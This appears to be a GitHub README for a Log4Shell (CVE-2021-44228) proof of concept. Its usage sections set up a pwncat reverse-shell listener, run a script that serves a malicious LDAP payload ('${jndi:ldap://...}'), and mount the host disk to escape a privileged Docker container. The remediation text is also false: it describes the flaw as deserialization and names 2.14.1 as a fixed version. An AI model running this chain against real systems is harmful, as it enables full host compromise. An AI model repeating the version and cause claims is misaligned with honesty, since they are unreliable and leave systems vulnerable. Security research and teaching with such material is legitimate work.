 Log4j Vulnerability (CVE-2021-44228)
----------------------

A security vulnerability, identified as CVE-2021-44228, has been discovered in certain versions of the Log4j library. In this proof of concept (poc) the explotetion of the log4j vulnerability is combined with another misconfiguration which allow an attacker to gain complete control of a victim host.

The vulnerability is caused by a flaw in the way Log4j handles deserialization of untrusted data. An attacker could exploit this vulnerability by injecting malicious payloads into the log data, which would then be deserialized by Log4j. If the victim host has a vulnerable version of Log4j and a misconfigured Java Object Input Stream (OIS) deserialization, the attacker could potentially execute arbitrary code with the same privileges as the user running the application.
In this example, multiple exploits are used in succession. First, the log4j vulnerability is exploited, and then a misconfiguration in the privileged mode of the Docker service is exploited in order to gain access to the host system.

Affected versions of Log4j are:
2.13.3 and prior
2.14.0
It is highly recommended to upgrade to Log4j version 2.14.1 or later, which addresses this vulnerability.

In addition to upgrading Log4j, it is important to ensure that the OIS deserialization is properly configured to only deserialize trusted data. This can be done by implementing a custom ObjectInputStream subclass that checks for malicious payloads or by disabling deserialization altogether if it is not needed for the application.

Please also review your system and verify that you are not using any vulnerable version of log4j and also check the deserialization configuration of your application.

It is important to keep your software up to date, and to be aware of any security vulnerabilities that may affect your systems. If you suspect that your host may have been compromised, it is important to take immediate action to contain the damage and prevent further attacks.

----------------------

As a PoC, a python file that automates the process is been created. 


#### Requirements:
```bash
pip install -r requirements.txt
```

#### Usage (exploiting log4j vuln):

* Start a pwncat listener to accept reverse shell connection.<br>
```py
pyhton3 -m pwncat -lp 4545 -m linux
```

* Launch the exploit.<br>
**Note:** For this to work, the extracted java archive has to be named: `jdk1.8.0_20`, and be in the same directory.
```py
$ python3 poc.py --userip localhost --webport 9000 --lport 4545

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/stefanosimonetto/log4j-shell-poc.git
[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```

This script will setup the HTTP server and the LDAP server for you, and it will also create the payload that you can use to paste into the vulnerable parameter. After this, if everything went well, you should get a shell on the lport.

<br>


Dockerized vulnerable application
--------------------------

A Dockerfile is been added with the vulnerable webapp. You can use this by following the steps below:
```c
1: docker build -t log4j-shell-poc .
2: docker run --priviliged --network host log4j-shell-poc
```
Once it is running, you can access it on localhost:8080

If you would like to further develop the project you can use Intellij IDE which we used to develop the project. We have also included a `.idea` folder where we have configuration files which make the job a bit easier. You can probably also use other IDE's too.

<br>

#### Usage (exploiting Docker misconfiguration):
Once you have remote code execution enable:

```py
press CTRL+D to change from local to remote
```
Execute the following commands to make a directory and copy the victim's host disk:
```py
mkdir -p /mnt/pwned
mount /dev/sda1 /mnt/pwned
```


Getting the Java version.
--------------------------------------

At the time of creating the exploit we were unsure of exactly which versions of java work and which don't so chose to work with one of the earliest versions of java 8: `java-8u20`.

Oracle thankfully provides an archive for all previous java versions:<br>
[https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html).<br>
Scroll down to `8u20` and download the appropriate files for your operating system and hardware.
![Screenshot from 2021-12-11 00-09-25](https://user-images.githubusercontent.com/46561460/145655967-b5808b9f-d919-476f-9cbc-ed9eaff51585.png)

**Note:** You do need to make an account to be able to download the package.

Once you have downloaded and extracted the archive, you can find `java` and a few related binaries in `jdk1.8.0_20/bin`.<br>
**Note:** Please make sure to extract the jdk folder into this repository with the same name in order for it to work.

```
❯ tar -xf jdk-8u20-linux-x64.tar.gz

❯ ./jdk1.8.0_20/bin/java -version
java version "1.8.0_20"
Java(TM) SE Runtime Environment (build 1.8.0_20-b26)
Java HotSpot(TM) 64-Bit Server VM (build 25.20-b23, mixed mode)
```

Disclaimer
----------
This repository is not intended to be a one-click exploit to CVE-2021-44228. The purpose of this project is to help people learn about this awesome vulnerability, and perhaps test their own applications (however there are better applications for this purpose, ei: [https://log4shell.tools/](https://log4shell.tools/)).

Using this exploit for malicious activity is not endorsed or supported. If assistance is requested, proof of ownership or authorized penetration testing permission for the target service may be required.

